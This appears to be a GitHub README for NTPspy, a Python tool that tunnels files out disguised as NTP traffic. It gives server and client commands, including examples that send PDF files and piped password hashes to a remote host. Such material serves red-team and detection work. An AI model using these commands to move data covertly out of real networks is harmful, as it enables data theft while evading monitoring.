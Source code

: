 # NTPspy - data tunneling over NTP

Transfer files disguised in simulated NTP traffic.

## Usage

**Quick start:**

Choose a port, default standard NTP 123, and magic number - any 32bit hex number besides zero and start NTPspy in server mode.

Use the same port and magic number to invoke the client with a filename, list of filenames, or piped input. Use -t n to set minimum time interval between messages in seconds.

See built-in -h help for complete options.

**Server mode:**

`ntpspy.py -s <path> [-p port] [-m magic]`

`ntpspy.py -s "./incoming" -p 1230 -m 0xfefefefe`

**Client:**

`ntpspy.py [-p port] [-m magic] remote filename [filename ... ]`

`ntpspy.py -m 0xfefefefe remote:1230 *.pdf`

`cat hashes.txt | ntpspy.py -m 0xfefefefe -p 1230 remote`

Other options:

- -t Minimum interval between messages
- -q Just query server version/confirm NTPspy presence and exit

## System requirements

Python 3.7

## Known limits/issues

Don't have multiples server instances pointed at same store directory - they will overwrite each other's temporary files.
